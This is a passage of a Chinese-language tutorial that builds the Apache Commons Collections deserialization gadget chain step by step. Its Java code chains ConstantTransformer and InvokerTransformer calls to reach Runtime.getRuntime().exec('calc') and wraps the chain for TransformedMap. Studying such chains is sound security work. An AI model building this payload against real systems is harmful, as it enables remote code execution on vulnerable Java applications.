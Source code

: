 现在已经有了Runtime类，那么考虑传一个getMethod进去，然后通过反射让Runtime类调用getMethod方法，参数即为getRuntime，因此第二个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), //返回Runtime类 
  
  new InvokerTransformer("getMethod",			//反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]})
}
```

然后需要调用invoke方法，因此传invoke进去，第三个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), 
  
  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),
  
  new InvokerTransformer("invoke", //调用invoke方法
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]})
}
```

最后调用exec方法，因此传exec进去，参数是命令，第四个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), 
  
  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),
  
  new InvokerTransformer("invoke",
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]}),
  
  new InvokerTransformer("exec", //调用exec方法
    new Class[]{String.class},
    new Object[]{"calc"})
};
```

把Transformer[]传给ChainedTransformer

```java
Transformer transformerChain = new ChainedTransformer(transformers);
```

然后把transformerChain传给TransformedMap.decorate，造出一个TransformedMap对象存在tmap中
